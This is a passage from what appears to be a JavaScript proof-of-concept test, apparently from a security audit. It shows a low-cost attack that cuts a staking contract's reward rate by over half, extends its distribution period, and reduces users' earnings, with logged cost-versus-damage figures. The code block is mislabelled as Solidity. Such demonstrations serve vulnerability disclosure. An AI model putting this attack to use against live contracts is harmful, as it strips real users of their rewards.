 ```solidity

        // Calculate reward rate reduction
        const rateReductionPercent = 100 - (Number(attackedRate) * 100 / Number(initialRate))
        console.log(`Reward rate REDUCED by ${rateReductionPercent.toFixed(2)}%!`)

        // Verify that reward rate has been significantly reduced
        expect(attackedRate).to.be.lt(initialRate)
        expect(rateReductionPercent).to.be.gt(50) // Reduction more than 50% but not 100%
        expect(rateReductionPercent).to.be.lt(100) // Not complete elimination

        // 3. Demonstrate impact on reward period 
        const initialPeriodFinish = initialState.periodFinish
        const attackedPeriodFinish = attackedState.periodFinish

        console.log("\n--- IMPACT ON DISTRIBUTION TIMELINE ---")
        console.log("Original period finish timestamp:", initialPeriodFinish.toString())
        console.log("New period finish timestamp:", attackedPeriodFinish.toString())
        
        // Calculate the extension in seconds and days
        const extensionSeconds = Number(attackedPeriodFinish) - Number(initialPeriodFinish)
        const extensionDays = extensionSeconds / 86400
        console.log(`Distribution period EXTENDED by ${extensionSeconds} seconds (${extensionDays.toFixed(2)} days)`)

        // Verify period finish was extended by attack
        expect(attackedPeriodFinish).to.be.gt(initialPeriodFinish)
        
        // 4. Impact on actual rewards for users
        console.log("\n--- IMPACT ON USER REWARDS ---")
        
        // Calculate how much user would have earned at original rate for next hour
        const oneHourSeconds = 3600
        const originalHourlyReward = BigInt(oneHourSeconds) * initialRate
        console.log("Original rewards user would earn in 1 hour:", originalHourlyReward.toString(), "tokens")
        
        // Calculate how much they'll earn now at the reduced rate
        const reducedHourlyReward = BigInt(oneHourSeconds) * attackedRate
        console.log("Reduced rewards user will earn in 1 hour:", reducedHourlyReward.toString(), "tokens")
        
        const hourlyLossPercent = 100 - (Number(reducedHourlyReward) * 100 / Number(originalHourlyReward))
        console.log(`User earnings REDUCED by ${hourlyLossPercent.toFixed(2)}% per hour!`)
        
        // 5. Show that attack cost is still very low relative to damage caused
        console.log("\n--- ATTACK COST VS DAMAGE ANALYSIS ---")
        console.log("Cost to attacker:", attackAmount, "tokens")
        
        // Calculate total reward reduction
        const expectedRemainingRewards = BigInt(adminRewardAmount) - distributedSoFar
        const oneWeekInSeconds = 604800
        const remainingTimeBeforeAttack = oneWeekInSeconds - elapsedTime
        
        const originalExpectedRewards = BigInt(remainingTimeBeforeAttack) * initialRate
        const newExpectedRewards = BigInt(remainingTimeBeforeAttack) * attackedRate
        const rewardReduction = originalExpectedRewards - newExpectedRewards
        
        console.log("Original rewards remaining:", originalExpectedRewards.toString(), "tokens")
        console.log("New rewards remaining (due to attack):", newExpectedRewards.toString(), "tokens")
        console.log("Total reward reduction:", rewardReduction.toString(), "tokens")
        
```
